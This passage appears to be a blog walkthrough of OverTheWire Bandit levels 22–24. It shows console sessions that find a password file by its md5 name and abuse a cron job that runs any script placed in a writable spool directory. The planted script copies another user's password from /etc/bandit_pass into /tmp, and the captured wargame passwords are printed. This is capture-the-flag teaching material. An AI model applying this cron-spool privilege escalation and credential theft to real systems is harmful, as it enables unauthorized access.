 {{< highlight console >}}
bandit22@melinda:~$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349
bandit22@melinda:~$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
{{< / highlight >}}

# Level 23 -> 24 #

[Level 23](http://overthewire.org/wargames/bandit/bandit24.html)

Once again....

{{< highlight console >}}
bandit23@melinda:~$ cat /etc/cron.d/cronjob_bandit24
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@melinda:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in *;
do
    echo "Handling $i"
    ./$i
    rm -f $i
done

{{< / highlight >}}

So anything in `/var/spool/bandit24` will get run as bandit24. Checking if we
can write to that directory show us

{{< highlight console >}}
bandit23@melinda:~$ ls -la /var/spool/
total 21
drwxr-xr-x  6 root     root     4096 Nov 15 14:55 .
drwxr-xr-x 15 root     root     4096 Nov 14 10:32 ..
drwxrwx---  2 bandit24 bandit23 1024 Mar 20 15:38 bandit24
{{< / highlight >}}

that we can. Excellent. So let's write a script to cat the password to a tmp file.

{{< highlight console >}}
!#/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/unl.pass
{{< / highlight >}}

Make it executable, copy it to the right directory and then harvest the key

{{< highlight console >}}
bandit23@melinda:/tmp$ chmod +x t.sh
bandit23@melinda:/tmp$ cp t.sh /var/spool/bandit24/
bandit23@melinda:/tmp$ cat /tmp/unl.pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
{{< / highlight >}}
